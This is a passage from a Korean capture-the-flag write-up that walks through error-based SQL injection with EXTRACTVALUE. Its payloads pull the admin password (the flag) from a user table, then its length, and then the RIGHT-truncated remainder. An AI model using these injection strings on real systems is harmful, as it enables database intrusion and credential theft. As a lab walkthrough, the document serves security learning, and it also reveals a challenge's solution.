 `users`로 제대로 된 값이 나오는 것을 확인할 수 있으니, 바로 `admin`의 upw를 뽑아보겠습니다.

```sql
admin' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT upw FROM user WHERE uid = 'admin'))) #
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/217194290-3ec05485-8caf-4f0b-a7d4-33d9a3c8e2b3.png" width = 450> 
</p>

하지만 모든 글자가 다 나오지 않은 것으로 보입니다. 글자 수를 뽑아보겠습니다.

```sql
admin' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT LENGTH(upw) FROM user WHERE uid = 'admin'))) #
```

총 44자리인데 FLAG를 뽑았을 때는 31자리밖에 나오질 않습니다. `RIGHT`를 이용해서 오른쪽부터의 값을 뽑는 방법으로 FLAG를 가져와서 해결하였습니다.

```sql
admin' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT RIGHT(upw, 30) FROM user WHERE uid = 'admin'))) #
```

* **참고**

   * [BugBountyClub](https://www.bugbountyclub.com/pentestgym/view/53)